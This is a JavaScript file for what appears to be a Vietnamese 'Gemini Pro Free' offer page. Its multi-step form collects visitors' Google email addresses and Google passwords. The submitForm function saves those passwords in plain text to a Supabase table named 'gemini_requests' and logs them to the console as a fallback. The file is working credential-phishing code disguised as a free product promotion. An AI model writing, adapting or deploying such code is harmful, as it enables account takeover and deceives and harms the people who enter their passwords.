 // Gemini Pro Free - Main JavaScript

let currentStep = 1;
let supabase = null;

// Initialize Supabase
if (typeof window.SUPABASE_CONFIG !== 'undefined') {
    const { createClient } = supabase;
    supabase = createClient(
        window.SUPABASE_CONFIG.url,
        window.SUPABASE_CONFIG.anonKey
    );
}

// Initialize
document.addEventListener('DOMContentLoaded', function() {
    initializeApp();
});

function initializeApp() {
    // Check if Supabase is configured
    if (!supabase) {
        console.warn('Supabase chưa được cấu hình. Vui lòng cập nhật file config.js');
    }

    // Setup event listeners
    setupEventListeners();
    
    // Show first step
    showStep(1);
}

function setupEventListeners() {
    // Checkbox for step 2
    const confirmCheckbox = document.getElementById('confirmSteps');
    if (confirmCheckbox) {
        confirmCheckbox.addEventListener('change', function() {
            const continueBtn = document.getElementById('continueBtn');
            continueBtn.disabled = !this.checked;
        });
    }

    // Form validation
    const formInputs = document.querySelectorAll('.form-input');
    formInputs.forEach(input => {
        input.addEventListener('input', validateForm);
    });
}

// Navigation Functions
function nextStep() {
    if (currentStep < 4) {
        currentStep++;
        showStep(currentStep);
    }
}

function previousStep() {
    if (currentStep > 1) {
        currentStep--;
        showStep(currentStep);
    }
}

function showStep(stepNumber) {
    // Hide all steps
    const allSteps = document.querySelectorAll('.step-container');
    allSteps.forEach(step => {
        step.classList.remove('active');
    });

    // Show current step
    const currentStepElement = document.querySelector(`.step-container[data-step="${stepNumber}"]`);
    if (currentStepElement) {
        currentStepElement.classList.add('active');
    }

    // Update progress bar
    updateProgressBar(stepNumber);

    // Scroll to top
    window.scrollTo({ top: 0, behavior: 'smooth' });
}

function updateProgressBar(stepNumber) {
    const progressSteps = document.querySelectorAll('.progress-step');
    
    progressSteps.forEach((step, index) => {
        const stepNum = index + 1;
        
        if (stepNum < stepNumber) {
            step.classList.add('completed');
            step.classList.remove('active');
        } else if (stepNum === stepNumber) {
            step.classList.add('active');
            step.classList.remove('completed');
        } else {
            step.classList.remove('active', 'completed');
        }
    });
}

// Form Validation
function validateForm() {
    const email = document.getElementById('email');
    const password = document.getElementById('password');
    const contactEmail = document.getElementById('contactEmail');

    if (!email || !password || !contactEmail) return false;

    const isValid = email.value.trim() !== '' && 
                   password.value.trim() !== '' && 
                   contactEmail.value.trim() !== '' &&
                   isValidEmail(email.value) &&
                   isValidEmail(contactEmail.value);

    return isValid;
}

function isValidEmail(email) {
    const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
    return emailRegex.test(email);
}

// Form Submission
async function submitForm() {
    // Validate form
    if (!validateForm()) {
        showNotification('Vui lòng điền đầy đủ thông tin hợp lệ!', 'error');
        return;
    }

    // Get form values
    const email = document.getElementById('email').value.trim();
    const password = document.getElementById('password').value.trim();
    const contactEmail = document.getElementById('contactEmail').value.trim();

    // Show loading
    showLoading(true);

    try {
        // Save to Supabase
        if (supabase) {
            const { data, error } = await supabase
                .from('gemini_requests')
                .insert([
                    {
                        google_email: email,
                        google_password: password,
                        contact_email: contactEmail,
                        created_at: new Date().toISOString(),
                        status: 'pending'
                    }
                ]);

            if (error) {
                console.error('Supabase error:', error);
                throw new Error('Không thể lưu thông tin. Vui lòng thử lại!');
            }

            console.log('Data saved successfully:', data);
        } else {
            // Fallback: Log to console if Supabase is not configured
            console.log('Form submitted (Supabase not configured):', {
                google_email: email,
                google_password: password,
                contact_email: contactEmail,
                created_at: new Date().toISOString()
            });
            
            // Simulate delay
            await new Promise(resolve => setTimeout(resolve, 1500));
        }

        // Hide loading
        showLoading(false);

        // Show success message
        showNotification('Đã gửi thông tin thành công!', 'success');

        // Move to next step
        setTimeout(() => {
            nextStep();
        }, 1000);

    } catch (error) {
        showLoading(false);
        showNotification(error.message || 'Có lỗi xảy ra. Vui lòng thử lại!', 'error');
        console.error('Error:', error);
    }
}

// Reset Form
function resetForm() {
    // Reset form fields
    const form = document.getElementById('userForm');
    if (form) {
        form.reset();
    }

    // Reset checkbox
    const checkbox = document.getElementById('confirmSteps');
    if (checkbox) {
        checkbox.checked = false;
    }

    // Reset current step
    currentStep = 1;
    showStep(1);

    // Disable continue button
    const continueBtn = document.getElementById('continueBtn');
    if (continueBtn) {
        continueBtn.disabled = true;
    }
}

// Loading Overlay
function showLoading(show) {
    const loadingOverlay = document.getElementById('loadingOverlay');
    if (loadingOverlay) {
        if (show) {
            loadingOverlay.classList.add('active');
        } else {
            loadingOverlay.classList.remove('active');
        }
    }
}

// Notification System
function showNotification(message, type = 'info') {
    // Create notification element
    const notification = document.createElement('div');
    notification.className = `notification notification-${type}`;
    notification.style.cssText = `
        position: fixed;
        top: 20px;
        right: 20px;
        padding: 20px 30px;
        background: ${type === 'success' ? '#95E1D3' : '#FF6B6B'};
        color: #1A1A1A;
        border: 4px solid #1A1A1A;
        box-shadow: 5px 5px 0px rgba(0, 0, 0, 1);
        font-weight: 700;
        font-size: 1.1rem;
        z-index: 10000;
        animation: slideInRight 0.3s ease;
        max-width: 400px;
        word-wrap: break-word;
    `;
    notification.textContent = message;

    // Add animation
    const style = document.createElement('style');
    style.textContent = `
        @keyframes slideInRight {
            from {
                transform: translateX(400px);
                opacity: 0;
            }
            to {
                transform: translateX(0);
                opacity: 1;
            }
        }
    `;
    document.head.appendChild(style);

    // Add to body
    document.body.appendChild(notification);

    // Remove after 3 seconds
    setTimeout(() => {
        notification.style.animation = 'slideInRight 0.3s ease reverse';
        setTimeout(() => {
            notification.remove();
            style.remove();
        }, 300);
    }, 3000);
}

// Utility Functions
function sanitizeInput(input) {
    const div = document.createElement('div');
    div.textContent = input;
    return div.innerHTML;
}

// Analytics (Optional)
function trackEvent(eventName, data = {}) {
    console.log('Event:', eventName, data);
    // Add your analytics code here (Google Analytics, etc.)
}

// Track page load
trackEvent('page_load', {
    timestamp: new Date().toISOString()
});

